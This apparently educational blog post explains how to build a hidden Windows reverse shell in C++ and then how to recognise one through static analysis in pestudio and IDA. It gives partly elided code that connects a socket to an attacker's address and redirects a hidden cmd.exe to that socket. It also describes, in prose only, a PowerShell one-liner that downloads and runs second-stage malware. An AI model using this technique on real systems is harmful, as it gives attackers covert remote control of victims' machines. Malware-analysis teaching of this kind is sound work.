 ```yaml
---
layout: post
title: Malware Functionality Analysis: Simple Reverse Shell
---
```


# Malware Functionality Analysis: Simple Reverse Shell

## Implementing the Reverse Shell

Let's first analyse what we require to develop this functionality.

1. A socket with which commands and communication will be routed to the server,
2. A `cmd.exe` process that acts as the shell,
3. A listening server on the attacking machine (netcat will be sufficient enough for this).

---

### Creating the Connection

I will keep this section brief because creating and connecting a socket is a trivial procedure and there are many tutorials out there explaining how it can be done.

```c++
SOCKET tcpConnect(std::string address, std::string port) {
    getaddrinfo(address.c_str(), port.c_str(), ...);
    
    /*
     * Create a TCP socket connection.
     *
     * It's important that we use WSASocket here instead of the normal socket 
     * function and without the WSA_FLAG_OVERLAPPED flag.
     */
    SOCKET s = WSASocket(..., SOCK_STREAM, IPPROTO_TCP, ...);
    
    connect(s, ...);
    
    return s;
}
```

Note that we require the [`WSASocket`](https://msdn.microsoft.com/en-us/library/windows/desktop/ms742212(v=vs.85).aspx) function because the (non-overlapped) socket will be required to work with I/O redirection with the shell's handles.

---

### Creating the Shell Process

The `cmd.exe` process acts as the shell so the application must create this as a separate process using the [`CreateProcess`](https://msdn.microsoft.com/en-us/library/windows/desktop/ms682425(v=vs.85).aspx) function specifying the executable's path and also setting the stdin/stdout/stderr handles to the socket specified in the [`STARTUPINFO structure`](https://msdn.microsoft.com/en-us/library/windows/desktop/ms686331(v=vs.85).aspx).

```c++
void createShell(void) {
    SOCKET s = tcpConnect(ADDRESS, PORT);
    
    STARTUPINFOA si;
    ZeroMemory(&si, sizeof(si));
    si.cb = sizeof(si);
    
    /*
     * We specify what values we want to use.
     * STARTF_USESTDHANDLES specifies that we want to use stdin/stdout/stderr.
     * STARTF_USESHOWWINDOW specifies that we want to control how the window appears.
     */
    si.dwFlags = STARTF_USESTDHANDLES | STARTF_USESHOWWINDOW;
    
    /*
     * Set stdin/stdout/stderr to the socket.
     */
    si.hStdError = si.hStdInput = si.hStdOutput = (HANDLE)s;
    
    /*
     * The process's window will not be shown.
     */
    si.wShowWindow = SW_HIDE;
    
    /*
     * This structure will contain the handle to the shell's 
     * process which will be used to block the application 
     * until the shell exits.
     */
    PROCESS_INFORMATION pi;
    
    /*
     * Retrieve the path of the cmd.exe executable's path.
     * We use this so that it will systemmatically retrieve the 
     * system directory which may not always be "C:\Windows\system32".
     *
     * NOTE: Depending on your application's architecture, this
     * value will change under the hood, i.e. if your application is 
     * a 32-bit process, it will get the SYSWOW64 directory whereas 
     * the 64-bit counterpart will get the system32 directory. Make 
     * sure your target file exists in its corresponding directory 
     * when doing something like this. Alternatively, you can force 
     * to not swap to SYSWOW64 by explicitly calling 
     * Wow64DisableWow64FsRedirection.
     * (https://msdn.microsoft.com/en-us/library/windows/desktop/aa365743(v=vs.85).aspx).
     */
     char szSysDirectory[MAX_PATH + 1];
     ZeroMemory(szSysDirectory, MAX_PATH + 1);
     GetSystemDirectoryA(szSysDirectory, MAX_PATH);
     
     /*
      * Append "\cmd.exe" onto the system directory.
      */
     std::string cmdExe = szSysDirectory;
     cmdExe += "\\cmd.exe";
     
     /*
      * Create the cmd.exe process.
      * Make sure that the process inherits the handles.
      */
     CreateProcessA(cmdExe.c_str(), ..., true, 0, ..., &si, &pi);
     
     /*
      * Block until the cmd.exe process has completed.
      */
     WaitForSingleObject(pi.hProcess, INFINITE);
}
```

Once the `cmd.exe` process has been created, we call [`WaitForSingleObject`](https://msdn.microsoft.com/en-us/library/windows/desktop/ms687032(v=vs.85).aspx) to block the application until the shell process has finished execution.

---

### Demonstration

![ShellExample](/images/2018-04-25-Malware-Functionality-Analysis-Simple-Reverse-Shell/shellexample.png)

Note that there is no window for the `cmd.exe` shell process spawned from the application because we used the `SW_HIDE` value for the `STARTUPINFO.wShowWindow` member. It functions nicely using native utilities and can even be used to call PowerShell albiet a little buggy.

![ShellExample](/images/2018-04-25-Malware-Functionality-Analysis-Simple-Reverse-Shell/shellexample1.png)

Using a single PowerShell one-liner, a 2nd-stage malware can be downloaded and invoked on the system like so:

![ShellExample](/images/2018-04-25-Malware-Functionality-Analysis-Simple-Reverse-Shell/shellexample6.png)

The PowerShell script will download a file (specified in `$url`) onto the local system (specified by `$local`), then it invokes the downloaded file using `invoke-item`. The sample 2nd-stage malware is demonstrated with a shortcut file that contains a PowerShell message box script.

---

### Static Analysis

Looking at the strings under pestudio, there exists some suspicious import and miscellaneous strings that relate back to the shell creation.

![ShellExample](/images/2018-04-25-Malware-Functionality-Analysis-Simple-Reverse-Shell/shellexample2.png)

Obviously, the application shows signs of networking activity via the imported Winsock library (ws2_32.dll) and its functions. On top of that, it shows the `\cmd.exe` string that identifies that it may interact with it in some way. To confirm that it is being used as a reverse shell we must dig into the disassembly.

After analysis of the import table and some strings, one method that I find relatively quick and effective is by identifying where these are referenced within the code sections. This can be done with IDA by opening up the respective tab (e.g. Imports or Strings), double clicking an entry and then following any listed references to the code. For this example, following one of the Winsock library functions references the `tcpConnect` disassembly:

![ShellExample](/images/2018-04-25-Malware-Functionality-Analysis-Simple-Reverse-Shell/shellexample3.png)

Tracing backwards from this routine presents the `createShell` routine:

![ShellExample](/images/2018-04-25-Malware-Functionality-Analysis-Simple-Reverse-Shell/shellexample5.png)

(Small note: the `var_34` below the `STARTUPINFO` structure's standard handle assignment is the `STARTUPINFO.wShowWindow` member set to `SW_HIDE` which has the value of `0`.)

![ShellExample](/images/2018-04-25-Malware-Functionality-Analysis-Simple-Reverse-Shell/shellexample5.png)

Obviously, the disassembly nicely follows that of the C++ code implementation listed above. The main focus is that a socket was created in which it was used to set the `STARTUPINFO.hStdInput`, `STARTUPINFO.hStdOuput` and `STARTUPINFO.hStdError` values of a `cmd.exe`'s `CreateProcess`. This very specific program execution flow is what can identify this type of reverse shell.
